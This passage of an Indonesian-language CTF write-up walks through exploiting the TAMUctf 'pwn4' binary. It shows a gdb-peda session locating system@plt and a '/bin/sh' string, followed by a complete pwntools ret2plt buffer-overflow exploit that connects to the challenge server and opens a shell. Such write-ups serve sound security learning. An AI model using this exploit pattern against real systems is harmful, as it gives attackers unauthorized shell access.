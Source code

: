 potongan diatas merupakan hasil disass dari ketiga funtion yang berbeda, ternyata mereka memiliki kesamaan yaitu memanggil function ```system@plt``` oleh karena itu kita akan menggunakan alamat function tersebut :
```
0x8048430 <system@plt>
```

selanjutnya kita akan menuliskan shell kedalam payload kita, namun karena ```ebp-0x1c``` adalah variabel kita tidak dapat memasukkan string kedalamnya melainkan alamat dari process shell tersebut. Untuk menemukan process tersebut kita dapat cari dengan ```info proc mapping``` lalu cari ```/bin/sh``` :
```
gdb-peda$ b main
Breakpoint 1 at 0x8048791
gdb-peda$ r
Starting program: /home/blaccmail/Downloads/pwn4 
gdb-peda$ info proc mapping
process 2995
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/blaccmail/Downloads/pwn4
	 0x8049000  0x804a000     0x1000        0x0 /home/blaccmail/Downloads/pwn4
	 0x804a000  0x804b000     0x1000     0x1000 /home/blaccmail/Downloads/pwn4
	0xf7dc4000 0xf7f91000   0x1cd000        0x0 /lib/i386-linux-gnu/libc-2.26.so
	0xf7f91000 0xf7f92000     0x1000   0x1cd000 /lib/i386-linux-gnu/libc-2.26.so
	0xf7f92000 0xf7f94000     0x2000   0x1cd000 /lib/i386-linux-gnu/libc-2.26.so
	0xf7f94000 0xf7f95000     0x1000   0x1cf000 /lib/i386-linux-gnu/libc-2.26.so
	0xf7f95000 0xf7f98000     0x3000        0x0 
	0xf7fd0000 0xf7fd2000     0x2000        0x0 
	0xf7fd2000 0xf7fd5000     0x3000        0x0 [vvar]
	0xf7fd5000 0xf7fd7000     0x2000        0x0 [vdso]
	0xf7fd7000 0xf7ffc000    0x25000        0x0 /lib/i386-linux-gnu/ld-2.26.so
	0xf7ffc000 0xf7ffd000     0x1000    0x24000 /lib/i386-linux-gnu/ld-2.26.so
	0xf7ffd000 0xf7ffe000     0x1000    0x25000 /lib/i386-linux-gnu/ld-2.26.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
gdb-peda$ find '/bin/sh' 0x8048000 0x804b000
Searching for '/bin/sh' in range: 0x8048000 - 0x804b000
Found 1 results, display max 1 items:
pwn4 : 0x804a038 ("/bin/sh") 
```
Alamat dari proses '/bin/sh' (shell) adalah 0x804a038

dari sini kita bisa buat exploitnya dengan pwntools :
```
from pwn import *

p = remote("pwn.ctf.tamu.edu", 4324)

print p.recv(2048)

syspltaddr = p32(0x8048430)
shelladdr = p32(0x804a038)

payload = "a"*32 + syspltaddr + "a"*4 + shelladdr

p.send(payload)
p.interactive()
```
